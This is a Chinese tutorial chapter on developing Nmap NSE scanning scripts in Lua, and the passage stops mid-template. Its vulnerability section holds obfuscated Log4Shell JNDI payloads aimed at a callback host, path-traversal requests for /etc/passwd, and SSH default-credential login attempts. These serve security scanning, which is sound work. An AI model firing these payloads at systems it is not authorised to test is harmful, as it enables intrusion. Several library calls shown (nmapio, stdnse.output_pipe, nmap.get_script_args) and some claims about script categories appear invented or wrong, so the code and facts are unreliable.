



## 33.2 Nmap NSE脚本开发

Nmap Scripting Engine（NSE）是Nmap中最强大的扩展机制，允许安全研究人员用Lua语言编写自定义脚本，将Nmap从一个端口扫描器升级为一个完整的安全评估平台。截至2026年，Nmap官方脚本库（NSE-Script）已包含超过700个脚本，覆盖漏洞检测、信息收集、暴力破解、后渗透等多个领域。掌握NSE脚本开发，意味着你能将任何安全检测逻辑嵌入到Nmap的扫描流程中。

### 33.2.1 NSE架构与运行机制

#### 架构总览

NSE采用分层架构设计，核心组件之间的关系如下：



#### 四种执行规则

NSE脚本通过不同的规则函数决定在何时触发执行。理解这四种规则是编写高效脚本的基础：

| 规则类型 | 触发时机 | 函数签名 | 典型用途 |
|---------|---------|---------|---------|
| **portrule** | 每个开放端口 | `function(host, port)` | 端口级检测（漏洞扫描、服务枚举） |
| **hostrule** | 每个扫描主机 | `function(host)` | 主机级检测（OS识别、网络拓扑） |
| **prerule** | 扫描开始前执行一次 | `function()` | 初始化操作（字典加载、API调用） |
| **postrule** | 扫描结束后执行一次 | `function()` | 汇总分析（报告生成、数据聚合） |



#### NSE的线程模型

NSE支持在单个脚本内并发执行多个实例（NSE Script Instances）。当一个脚本的portrule匹配到多个端口时，Nmap会为每个端口启动独立的Lua协程：

```lua
-- NSE的并发模型基于Lua协程（coroutine）
-- 每个匹配端口运行一个独立实例，共享全局变量需注意线程安全
local shared_data = {}  -- 共享表，注意并发写入冲突

portrule = function(host, port)
    return port.protocol == "tcp" and port.state == "open"
end

action = function(host, port)
    -- 每个端口实例独立执行，但共享同一Lua状态
    -- 使用nmap.registry进行跨实例数据共享
    local registry = nmap.registry
    if not registry.script_results then
        registry.script_results = {}
    end
    
    local result = do_check(host, port)
    -- 使用锁保护共享写入（nmap.mutex）
    local lock = nmap.mutex(registry.script_results)
    lock("on")
    table.insert(registry.script_results, result)
    lock("off")
    
    return result
end
```

### 33.2.2 Lua语言基础与NSE约定

NSE基于Lua 5.1/5.3运行时，但有特殊的约定和限制。安全脚本开发者不需要精通Lua的每个细节，但必须掌握以下核心概念：

#### 变量与作用域

```lua
-- Lua中没有常量关键字，用约定命名表示不可变
local MAX_RETRIES = 3           -- local限制变量作用域，必须使用
local TIMEOUT = 10              -- 超时秒数

-- NSE全局变量在脚本生命周期内持久化
-- 但注意：不同脚本实例（不同端口）共享全局状态

-- 表（table）是Lua唯一的数据结构，既是数组又是字典
local scan_results = {}         -- 空表
local users = {"admin", "root", "test"}  -- 数组型表
local config = {                -- 字典型表
    timeout = 5,
    retries = 2,
    verbose = false
}

-- 嵌套表用于结构化数据
local vuln_db = {
    ["CVE-2021-44228"] = {
        name = "Log4Shell",
        severity = "Critical",
        cvss = 10.0
    }
}
```

#### 字符串处理

```lua
-- NSE中字符串操作频繁，需要掌握以下模式匹配语法
local str = "HTTP/1.1 200 OK"

-- 字符串连接用 .. 而非 +
local url = "http://" .. host.ip .. ":" .. port.number .. "/"

-- 模式匹配（pattern matching）—— 类似正则但不完全相同
local match = string.match(str, "HTTP/%d%.%d (%d+)")  -- 提取状态码

-- gsub用于全局替换（常用于清理响应内容）
local cleaned = string.gsub(response.body, "<[^>]+>", "")  -- 去除HTML标签

-- 格式化输出
local log_msg = string.format("[%s] %s:%d - %s", 
    os.date("%Y-%m-%d %H:%M"), host.ip, port.number, "vulnerability found")
```

#### 错误处理模式

```lua
-- NSE脚本必须优雅处理错误，避免因单个目标异常导致整个扫描中断

-- 模式1：pcall保护（Protected Call）
local ok, result = pcall(function()
    -- 可能抛出异常的操作
    local response = http.get(url, {timeout = 10000})
    return response.body
end)

if ok then
    -- 正常处理result
else
    -- result包含错误信息
    stdnse.debug(1, "HTTP request failed: %s", tostring(result))
end

-- 模式2：条件检查（NSE推荐方式）
local response = http.get(url, {timeout = 10000})
if not response then
    return stdnse.format_output(false, "HTTP request failed")
end
if response.status ~= 200 then
    return stdnse.format_output(false, 
        string.format("Unexpected status code: %d", response.status))
end
```

### 33.2.3 核心库详解

NSE提供了一套丰富的标准库，掌握这些库的功能边界是高效开发的关键。

#### stdnse库 —— 标准工具库

```lua
local stdnse = require "stdnse"

-- 1. 输出格式化：stdnse.output_table()
-- 创建结构化输出，Nmap会自动格式化为XML和Normal模式
local output = stdnse.output_table()
output.vulnerability = "CVE-2021-44228"
output.severity = "Critical"
output.evidence = "JNDI injection payload accepted"
output.details = {
    affected_service = "HTTP",
    cvss_score = 10.0,
    remediation = "Upgrade Log4j to 2.17.0+"
}
return output

-- 2. 调试输出：stdnse.debug()
-- 使用 -d 参数控制输出级别（-d 0 关闭，-d 1 一般，-d 2 详细）
stdnse.debug(1, "Starting vulnerability check on %s", host.ip)
stdnse.debug(2, "Response headers: %s", table.concat(response.headers, "\n"))

-- 3. 线程同步：stdnse.new_mutex()
-- 当脚本有多个并发实例需要共享资源时使用
local mutex = stdnse.new_mutex("shared_table")
local result = mutex:enter()
-- 执行需要同步的操作
mutex:leave()

-- 4. 输出管道：stdnse.output_pipe()
-- 将结果直接写入Nmap输出流
local pipe = stdnse.output_pipe()
pipe:open(stdnse.get_script_args("output"))
pipe:write(result)
pipe:close()
```

#### nmap库 —— Nmap API接口

```lua
local nmap = require "nmap"

-- 1. 获取扫描信息
local state = nmap.get_ports(host)          -- 获取主机的所有端口
local port_info = nmap.get_port_state(host, {number=80, protocol="tcp"})

-- 2. 端口扫描（NSE内部触发的额外扫描）
-- 注意：额外扫描受时序参数影响
local status = nmap.probe_port(host, port)
if status == "open" then
    stdnse.debug(1, "Port %d confirmed open", port.number)
end

-- 3. 注册表（Registry）—— 跨脚本/跨实例的数据共享空间
-- nmap.registry在所有脚本间共享，是唯一安全的跨脚本通信方式
nmap.registry.seen_hosts = nmap.registry.seen_hosts or {}
if not nmap.registry.seen_hosts[host.ip] then
    nmap.registry.seen_hosts[host.ip] = true
    -- 首次见到此主机，执行特殊逻辑
end

-- 4. 脚本参数读取
-- 通过 --script-args 传入的参数
local username = nmap.get_script_args(SCRIPT_NAME .. ".username") or "admin"
local wordlist = nmap.get_script_args(SCRIPT_NAME .. ".wordlist") or "/usr/share/wordlists"

-- 5. 引擎信息
local nmap_version = nmap.version
local nmap_version_major = nmap.version.major
```

#### http库 —— HTTP请求库

```lua
local http = require "http"

-- 1. 基本GET请求
local response = http.get("http://example.com/", {
    timeout = 5000,           -- 毫秒
    redirect = true,          -- 跟随重定向
    max_redirects = 5,        -- 最大重定向次数
    header = {                -- 自定义请求头
        ["User-Agent"] = "Mozilla/5.0 (compatible; NSE)",
        ["Accept"] = "text/html"
    }
})

-- 2. POST请求（表单数据）
local post_data = http.post_form("http://example.com/login", {
    username = "admin",
    password = "test"
}, {
    timeout = 5000
})

-- 3. POST请求（原始数据）
local json_data = '{"user":"admin","pass":"test"}'
local post_response = http.post("http://example.com/api", {
    content = json_data,
    header = {
        ["Content-Type"] = "application/json",
        ["Content-Length"] = tostring(#json_data)
    }
})

-- 4. HTTPS处理
-- http库自动处理SSL，但可以自定义SSL参数
local https_response = http.get("https://example.com/", {
    ssl = {
        verify = "none",      -- 跳过证书验证（测试环境）
        protocol = "tlsv1_2"  -- 强制TLS版本
    }
})

-- 5. 响应处理
if response then
    local status = response.status           -- HTTP状态码
    local body = response.body               -- 响应体
    local headers = response.headers         -- 响应头表
    local cookies = response.cookies         -- Cookie表
    
    -- 检查特定安全头
    local x_frame = headers["x-frame-options"]
    if not x_frame then
        -- 缺少X-Frame-Options头，可能存在点击劫持风险
    end
end
```

#### shortport库 —— 端口规则简写

```lua
local shortport = require "shortport"

-- shortport提供了常用的portrule工厂函数，避免重复编写端口判断逻辑

-- HTTP服务检测（端口80/443/8080/8443或http/https服务）
portrule = shortport.http

-- SSH服务检测（端口22或ssh服务）
portrule = shortport.ssh

-- FTP服务检测
portrule = shortport.ftp

-- 通用端口规则：指定端口号列表
portrule = shortport.portlist({21, 22, 23, 25, 53, 80, 443, 3306, 5432})

-- 通用端口规则：端口范围
portrule = shortport.portrange(1, 1024)  -- 常用端口

-- 组合规则：自定义复杂条件
portrule = shortport.port_or_service({80, 443, 8080, 8443}, {"http", "https"})

-- 版本信息匹配
portrule = shortport.version_port_or_service(nil, nil, "soft")
```

#### 其他常用库

```lua
-- openssl库 —— 加密操作
local openssl = require "openssl"
local sha256 = openssl.sha256("password")
local md5_hash = openssl.md5("data")

-- dns库 —— DNS查询
local dns = require "dns"
local response = dns.query("example.com", {dtype="A"})
if response then
    -- response包含DNS解析结果
end

-- nmapio库 —— 文件I/O（NSE安全文件操作）
local nmapio = require "nmapio"
local file = nmapio.open("/tmp/results.txt", "w")
if file then
    file:write("scan result\n")
    file:close()
end

-- tab库 —— 表格格式化输出
local tab = require "tab"
local output = tab.dump({
    {"Service", "Port", "Status"},
    {"HTTP", "80", "Open"},
    {"SSH", "22", "Open"}
})
```

### 33.2.4 脚本分类体系

Nmap将所有脚本分为14个标准分类，每个分类决定了脚本的默认执行策略和安全级别：

| 分类 | 说明 | 默认执行 | 典型用途 | 安全级别 |
|------|------|---------|---------|---------|
| **auth** | 认证绕过/凭证测试 | 否 | 弱口令检测、认证绕过 | 中 |
| **broadcast** | 广播发现 | 否 | 局域网主机发现、服务广播 | 低 |
| **brute** | 暴力破解 | 否 | 密码爆破、凭证填充 | 高 |
| **default** | 默认脚本集 | 是 | 综合安全检查 | 低 |
| **discovery** | 信息收集 | 是 | 服务枚举、目录扫描 | 低 |
| **dos** | 拒绝服务测试 | 否 | DoS验证（谨慎使用） | 高 |
| **exploit** | 漏洞利用 | 否 | 实际利用漏洞 | 高 |
| **external** | 外部数据查询 | 否 | 第三方数据库查询 | 低 |
| **fuzzer** | 模糊测试 | 否 | 协议fuzzing | 中 |
| **intrusive** | 入侵性扫描 | 否 | 需授权的深度扫描 | 高 |
| **malware** | 恶意软件检测 | 否 | 后门/木马检测 | 低 |
| **safe** | 安全扫描 | 是 | 不影响服务的检测 | 低 |
| **version** | 版本检测增强 | 是 | 精确服务版本识别 | 低 |
| **vuln** | 漏洞检测 | 否 | 已知漏洞匹配 | 中 |

分类影响的两个关键行为：

1. **默认执行**：`-sC`（等同于`--script=default`）只运行default和safe分类的脚本
2. **`--script safe`**：只运行safe分类，确保不触发入侵性操作

```lua
-- 在脚本中声明分类
categories = {"vuln", "safe"}  -- 该脚本属于vuln和safe分类
-- 注意：一个脚本可以属于多个分类
-- 如果脚本包含intrusive操作，不要标记为safe
```

### 33.2.5 信息收集脚本开发实战

#### 目录枚举脚本

一个生产级的目录枚举脚本需要考虑：并发控制、响应过滤、误报排除、结果去重：

```lua
local http = require "http"
local nmap = require "nmap"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local table = require "table"

description = [[
自定义Web目录枚举脚本
支持多线程并发探测，自动过滤误报和重定向
]]

categories = {"discovery", "safe"}

-- 使用shortport简化端口规则
portrule = shortport.http

-- 从外部文件加载字典（通过script-args传入）
local function load_wordlist(filepath)
    local wordlist = {}
    local file = io.open(filepath, "r")
    if not file then
        stdnse.debug(1, "无法打开字典文件: %s", filepath)
        return nil
    end
    for line in file:lines() do
        line = line:match("^%s*(.-)%s*$")  -- 去除首尾空白
        if line ~= "" and not line:match("^#") then
            table.insert(wordlist, line)
        end
    end
    file:close()
    return wordlist
end

-- 默认字典（当未指定外部文件时使用）
local default_paths = {
    "/admin", "/login", "/wp-admin", "/phpmyadmin",
    "/backup", "/config", "/test", "/debug",
    "/.git", "/.env", "/robots.txt", "/sitemap.xml",
    "/api", "/docs", "/console", "/actuator",
    "/.svn", "/.DS_Store", "/web.config", "/crossdomain.xml"
}

-- 误报过滤器：排除已知的误报响应
local false_positive_filter = {
    [403] = true,   -- 403禁止访问（目录存在但无权访问）
    [401] = true,   -- 401未认证（需要登录的页面）
}

action = function(host, port)
    local results = {}
    local paths = default_paths
    
    -- 支持用户自定义字典
    local user_wordlist = nmap.get_script_args(SCRIPT_NAME .. ".wordlist")
    if user_wordlist then
        local loaded = load_wordlist(user_wordlist)
        if loaded then
            paths = loaded
            stdnse.debug(1, "已加载自定义字典，共 %d 条", #paths)
        end
    end
    
    -- 构建基础URL
    local scheme = (port.number == 443) and "https" or "http"
    local base_url = string.format("%s://%s:%d", scheme, host.ip, port.number)
    
    stdnse.debug(1, "开始目录枚举，目标: %s，字典大小: %d", base_url, #paths)
    
    -- 逐路径探测
    for _, path in ipairs(paths) do
        local url = base_url .. path
        local response = http.get(url, {
            timeout = 5000,
            redirect = false  -- 不跟随重定向，记录原始状态
        })
        
        if response then
            local status = response.status
            local body_len = response.body and #response.body or 0
            
            -- 过滤误报
            if status == 200 and body_len > 0 then
                -- 检查是否为自定义404页面（常见长度特征）
                if body_len ~= 0 then  -- 可扩展：检查是否匹配已知404模板
                    table.insert(results, {
                        path = path,
                        status = status,
                        size = body_len,
                        redirect = response.location or "none"
                    })
                end
            elseif status == 301 or status == 302 then
                -- 记录重定向（可能存在管理后台跳转）
                table.insert(results, {
                    path = path,
                    status = status,
                    redirect_to = response.location or "unknown"
                })
            end
        end
    end
    
    if #results > 0 then
        local output = stdnse.output_table()
        output.found = #results
        output.details = results
        return output
    end
end
```

#### 服务指纹增强脚本

```lua
local nmap = require "nmap"
local stdnse = require "stdnse"

description = [[
增强版HTTP服务指纹识别
通过多维度特征匹配识别Web服务器、框架、中间件版本
]]

categories = {"version", "safe"}

portrule = function(host, port)
    return port.protocol == "tcp" 
           and port.state == "open"
           and (port.service == "http" or port.service == "https")
end

-- 已知指纹库
local fingerprints = {
    {
        name = "Apache Tomcat",
        header_pattern = "Server: Apache-Coyote",
        body_pattern = "Apache Tomcat",
        version_pattern = "Apache Tomcat/(%d+%.%d+%.%d+)"
    },
    {
        name = "Nginx",
        header_pattern = "Server: nginx",
        version_pattern = "nginx/(%d+%.%d+%.%d+)"
    },
    {
        name = "IIS",
        header_pattern = "Server: Microsoft-IIS",
        version_pattern = "Microsoft-IIS/(%d+%.%d+)"
    },
    {
        name = "Spring Boot",
        body_pattern = '"status":404.*"error":"Not Found"',
        path = "/actuator"  -- Spring Boot Actuator端点
    },
    {
        name = "WordPress",
        body_pattern = "wp-content/",
        version_pattern = '<meta name="generator" content="WordPress (%d+%.%d+)"'
    }
}

action = function(host, port)
    local output = stdnse.output_table()
    output.detected = {}
    
    -- 发送探测请求
    local scheme = (port.number == 443) and "https" or "http"
    local base_url = string.format("%s://%s:%d", scheme, host.ip, port.number)
    
    local response = http.get(base_url, {timeout = 5000})
    if not response then
        return stdnse.format_output(false, "HTTP请求失败")
    end
    
    local server_header = response.headers["server"] or ""
    local body = response.body or ""
    
    -- 遍历指纹库匹配
    for _, fp in ipairs(fingerprints) do
        local match_found = false
        local version = nil
        
        -- 匹配Server头
        if fp.header_pattern and string.find(server_header, fp.header_pattern) then
            match_found = true
        end
        
        -- 匹配响应体
        if fp.body_pattern and string.find(body, fp.body_pattern) then
            match_found = true
        end
        
        -- 提取版本号
        if match_found and fp.version_pattern then
            version = string.match(body, fp.version_pattern) 
                   or string.match(server_header, fp.version_pattern)
        end
        
        if match_found then
            table.insert(output.detected, {
                name = fp.name,
                version = version or "unknown",
                evidence = fp.header_pattern or fp.body_pattern
            })
        end
    end
    
    if #output.detected > 0 then
        output.total = #output.detected
        return output
    end
end
```

### 33.2.6 漏洞检测脚本开发实战

#### CVE漏洞检测脚本

编写漏洞检测脚本的核心原则：**可验证性**和**低误报率**。不要仅凭指纹判断漏洞存在，必须发送实际验证载荷：

```lua
local http = require "http"
local nmap = require "nmap"
local stdnse = require "stdnse"
local table = require "table"

description = [[
自定义CVE漏洞检测脚本
检测多个高危漏洞，包含实际验证逻辑
]]

categories = {"vuln", "intrusive"}

portrule = function(host, port)
    return port.protocol == "tcp"
           and port.state == "open"
           and (port.service == "http" or port.service == "https"
                or port.number == 80 or port.number == 443)
end

-- 漏洞检测模块：每个函数独立，便于维护和扩展
local detectors = {}

-- CVE-2021-44228 (Log4Shell) 检测
-- 原理：向目标发送包含JNDI注入载荷的HTTP头，检测是否触发外部连接
detectors.log4shell = function(host, port)
    local scheme = (port.number == 443) and "https" or "http"
    local base_url = string.format("%s://%s:%d/", scheme, host.ip, port.number)
    
    -- 使用随机化token避免DNS缓存干扰
    local token = string.format("%s.%s", 
        stdnse.generate_random_string(8), 
        nmap.get_script_args(SCRIPT_NAME .. ".callback") or "log4test.example.com")
    
    local payloads = {
        "${jndi:ldap://" .. token .. "}",
        "${jndi:rmi://" .. token .. "}",
        "${jndi:dns://" .. token .. "}",
        "${${lower:j}ndi:${lower:l}dap://" .. token .. "}",
        "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://" .. token .. "}"
    }
    
    local vulnerable = false
    local evidence = nil
    
    for _, payload in ipairs(payloads) do
        local headers = {
            ["User-Agent"] = payload,
            ["X-Forwarded-For"] = payload,
            ["Referer"] = payload,
            ["X-Api-Version"] = payload
        }
        
        local response = http.get(base_url, {
            timeout = 5000,
            header = headers
        })
        
        if response then
            -- 检测方法1：检查响应中是否包含载荷回显（某些版本会回显）
            if response.body and string.find(response.body, payload) then
                vulnerable = true
                evidence = "Payload reflected in response body"
                break
            end
            
            -- 检测方法2：检查特殊错误页面（Log4j处理异常时的特征）
            if response.body and string.find(response.body, "javax.naming") then
                vulnerable = true
                evidence = "JNDI exception in error page"
                break
            end
        end
    end
    
    if vulnerable then
        return {
            id = "CVE-2021-44228",
            name = "Log4Shell (Apache Log4j2 RCE)",
            severity = "Critical",
            cvss = 10.0,
            evidence = evidence,
            remediation = "升级Log4j到2.17.0+或设置log4j2.formatMsgNoLookups=true"
        }
    end
end

-- CVE-2021-41773 / CVE-2021-42013 (Apache Path Traversal) 检测
detectors.apache_path_traversal = function(host, port)
    local scheme = (port.number == 443) and "https" or "http"
    local base_url = string.format("%s://%s:%d", scheme, host.ip, port.number)
    
    -- 尝试路径穿越读取/etc/passwd
    local traversal_paths = {
        "/.%%2e/.%%2e/.%%2e/.%%2e/etc/passwd",
        "/....//....//....//....//etc/passwd",
        "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
    }
    
    for _, path in ipairs(traversal_paths) do
        local response = http.get(base_url .. path, {timeout = 5000})
        if response and response.status == 200 then
            if string.find(response.body, "root:x:0:0") then
                return {
                    id = "CVE-2021-41773",
                    name = "Apache HTTP Server Path Traversal",
                    severity = "Critical",
                    cvss = 9.8,
                    evidence = "Successfully read /etc/passwd via path traversal",
                    remediation = "升级Apache HTTP Server到2.4.51+"
                }
            end
        end
    end
end

-- 弱密码检测模块
detectors.weak_credentials = function(host, port)
    local service = port.service
    
    -- SSH弱密码检测（使用Nmap内置的ssh-brute或自定义）
    if service == "ssh" then
        local weak_pairs = {
            {user = "root", pass = "root"},
            {user = "admin", pass = "admin"},
            {user = "root", pass = "123456"},
            {user = "test", pass = "test"},
            {user = "ubuntu", pass = "ubuntu"}
        }
        
        for _, cred in ipairs(weak_pairs) do
            -- 使用nmap的ssh库进行认证尝试
            local ssh = require "ssh"
            local session = ssh.connect(host.ip, port.number, {
                username = cred.user,
                password = cred.pass,
                timeout = 5000
            })
            if session then
                session:close()
                return {
                    id = "WEAK-SSH-CREDS",
                    name = "SSH弱密码",
                    severity = "High",
                    cvss = 7.5,
                    evidence = string.format("凭证: %s/%s", cred.user, cred.pass),
                    remediation = "禁用密码认证，使用密钥对；实施密码复杂度策略"
                }
            end
        end
    end
end

action = function(host, port)
    local findings = {}
    
    -- 依次运行所有检测模块
    local module_names = {"log4shell", "apache_path_traversal", "weak_credentials"}
    
    for _, module_name in ipairs(module_names) do
        if detectors[module_name] then
            stdnse.debug(1, "运行检测模块: %s", module_name)
            local result = detectors[module_name](host, port)
            if result then
                table.insert(findings, result)
                stdnse.debug(1, "发现漏洞: %s", result.name)
            end
        end
    end
    
    if #findings > 0 then
        local output = stdnse.output_table()
        output.host = host.ip
        output.port = port.number
        output.findings = findings
        output.total = #findings
        return output
    end
end
```

### 33.2.7 脚本参数与输出格式化

#### 参数传递机制

NSE脚本通过`--script-args`接收用户参数，支持三种参数格式：

```bash
# 格式1：点分隔（推荐，脚本内用SCRIPT_NAME.key访问）
nmap --script=vuln-check --script-args vuln-check.timeout=10,vuln-check.verbose target

# 格式2：等号分隔
nmap --script=vuln-check --script-args "timeout=10,verbose=true" target

# 格式3：嵌套参数（用于传递复杂配置）
nmap --script=http-enum --script-args http-enum.paths={/admin,/test,/api} target
```

```lua
-- 在脚本中读取参数
local timeout = tonumber(nmap.get_script_args(SCRIPT_NAME .. ".timeout")) or 5000
local verbose = nmap.get_script_args(SCRIPT_NAME .. ".verbose") == "true"
local custom_paths = nmap.get_script_args(SCRIPT_NAME .. ".paths")

-- 解析嵌套参数（逗号分隔的路径列表）
if custom_paths then
    local paths = {}
    for path in string.gmatch(custom_paths, "[^,]+") do
        table.insert(paths, path)
    end
    -- 使用paths替代默认字典
end
```

#### 输出格式化策略

```lua
-- NSE支持三种输出格式：Normal（终端）、XML（程序化）、Grepable（grep友好）
-- 脚本返回值决定输出格式

-- 策略1：字符串输出（最简单，但缺乏结构）
return "Vulnerability found: CVE-2021-44228"

-- 策略2：output_table（推荐，自动适配三种格式）
local output = stdnse.output_table()
output.status = "Vulnerable"
output.vulns = {
    {id = "CVE-2021-44228", severity = "Critical"},
    {id = "CVE-2021-41773", severity = "High"}
}
return output

-- 策略3：VULNERABLE/OK标记（Nmap自动识别并高亮显示）
-- 如果脚本返回VULNERABLE字符串，Nmap会在Normal模式下显示为红色
return "VULNERABLE: CVE-2021-44228 - Apache Log4j2 RCE"

-- 策略4：嵌套表（复杂结果的结构化展示）
local output = stdnse.output_table()
output.scan_info = {
    target = host.ip,
    port = port.number,
    timestamp = os.date("%Y-%m-%d %H:%M:%S")
}
output.vulnerabilities = {}
for _, vuln in ipairs(findings) do
    table.insert(output.vulnerabilities, vuln)
end
return output
```

### 33.2.8 调试与测试

#### 调试技巧

```bash
# 1. 使用-d参数控制调试输出级别
nmap -d --script=my-script target        # 级别1：一般调试
nmap -d -d --script=my-script target     # 级别2：详细调试
nmap -d -d -d --script=my-script target  # 级别3：极详细

# 2. 使用--script-trace查看所有HTTP请求和响应
nmap --script-trace --script=http-enum target

# 3. 使用-oX输出XML格式，便于程序化分析
nmap -oX scan_results.xml --script=vuln-check target

# 4. 仅运行特定脚本（排除干扰）
nmap --script=default --script-timeout=30s target

# 5. 使用--script-help查看脚本说明
nmap --script-help=http-enum
```

#### 测试最佳实践

```bash
# 1. 先用单端口测试，避免全端口扫描带来的噪声
nmap -p 80 --script=my-script localhost

# 2. 使用--unprivileged运行（不需要root权限的脚本）
nmap --unprivileged -p 80 --script=my-script localhost

# 3. 使用--script-updatedb更新脚本数据库
nmap --script-updatedb

# 4. 脚本开发时的最小化扫描命令
nmap -sT -p 80,443 --script=my-script --script-args verbose=true 127.0.0.1
```

### 33.2.9 性能优化与注意事项

#### 性能优化策略

```lua
-- 1. 连接复用：使用http.get的pool选项
local options = {
    pool = "my_connection_pool",  -- 同一pool内的请求复用TCP连接
    timeout = 5000
}
local r1 = http.get("http://target/path1", options)
local r2 = http.get("http://target/path2", options)  -- 复用连接

-- 2. 减少不必要的DNS查询
local cached_hosts = {}
local function resolve_host(hostname)
    if not cached_hosts[hostname] then
        local response = dns.query(hostname, {dtype="A"})
        cached_hosts[hostname] = response and response[1] or hostname
    end
    return cached_hosts[hostname]
end

-- 3. 批量请求控制：避免触发WAF/IDS
local rate_limiter = {
    last_request = 0,
    min_interval = 100  -- 毫秒
}

local function throttled_get(url)
    local now = os.time() * 1000
    local wait = rate_limiter.min_interval - (now - rate_limiter.last_request)
    if wait > 0 then
        stdnse.sleep(wait / 1000)  -- sleep接受秒为单位
    end
    rate_limiter.last_request = os.time() * 1000
    return http.get(url, {timeout = 5000})
end

-- 4. 使用nmap.registry避免重复检测
if not nmap.registry.checked_vulns then
    nmap.registry.checked_vulns = {}
end
if nmap.registry.checked_vulns["CVE-2021-44228"] then
    return nil  -- 已检测过，跳过
end
nmap.registry.checked_vulns["CVE-2021-44228"] = true
```

#### 常见陷阱与规避

| 陷阱 | 原因 | 规避方法 |
|------|------|---------|
| 脚本超时无输出 | 单个请求阻塞时间过长 | 设置`timeout`参数，使用`stdnse.timeout()`包装 |
| 误报率高 | 仅凭状态码判断漏洞存在 | 结合响应体内容、特定头部、多载荷交叉验证 |
| 并发实例数据竞争 | 多个portrule实例同时写入共享表 | 使用`nmap.registry`或`stdnse.new_mutex()` |
| 脚本在某些目标上挂起 | 目标返回异常响应导致无限循环 | 设置最大重试次数和超时 |
| 结果输出为空 | portrule条件过严 | 先简化portrule测试，确认问题不在规则层 |
| NSE参数不生效 | 参数名拼写错误或未传递 | 使用`stdnse.get_script_args(SCRIPT_NAME..".key")` |
| 脚本无法加载 | require路径错误或语法错误 | 使用`nmap --script-updatedb`更新，检查Lua语法 |

### 33.2.10 脚本开发工作流

完整的NSE脚本开发应遵循以下工作流：



#### 脚本模板

以下是开发新脚本时可直接使用的模板：

```lua
local http = require "http"
local nmap = require "nmap"
local shortport = require "shortport"
local stdnse = require "stdnse"

description = [[
脚本名称：[填写脚本名称]
功能描述：[详细描述脚本检测的内容和方法]
参考资料：
  - https://example.com/cve-details
  - https://example.com/analysis-report
]]

author = "Your Name <your@email.com>"
license = "Same as Nmap"  -- 或 "GPLv2"
categories = {"vuln", "safe"}  -- 根据实际情况选择

portrule = shortport.http  -- 或自定义规则

action = function(host, port)
    -- 参数解析
    local timeout = tonumber(nmap.get_script_args(SCRIPT_NAME .. ".timeout")) or 5000
